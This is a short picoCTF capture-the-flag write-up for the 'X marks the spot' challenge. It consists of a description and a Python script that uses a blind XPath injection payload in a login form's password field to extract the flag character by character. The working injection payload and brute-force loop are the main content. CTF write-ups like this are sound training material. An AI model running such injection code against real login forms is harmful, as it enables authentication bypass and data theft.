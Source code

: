 # X marks the spot

Author: Enan Ajmain

Original link: https://play.picoctf.org/practice/challenge/185

Tools used:
- python


## Description

Another login you have to bypass. Maybe you can find an injection that works?

http://mercury.picoctf.net:20297/


## Explanation

```python
import requests
from string import *

charecters = ascii_lowercase + ascii_uppercase + digits + "}_"

flag = "picoCTF{"

while True:
    if flag[-1] == '}':
        break
    for ch in charecters:
        st = flag + ch
        data = {"name":"admin", "pass":"' or //*[starts-with(text(),'"+st+"')] or '1'='2"}
        r = requests.post("http://mercury.picoctf.net:20297/", data=data)
        if "You&#39;re on the right path." in r.text:
            flag = flag + ch
            print(flag)
            break

print(flag)
```
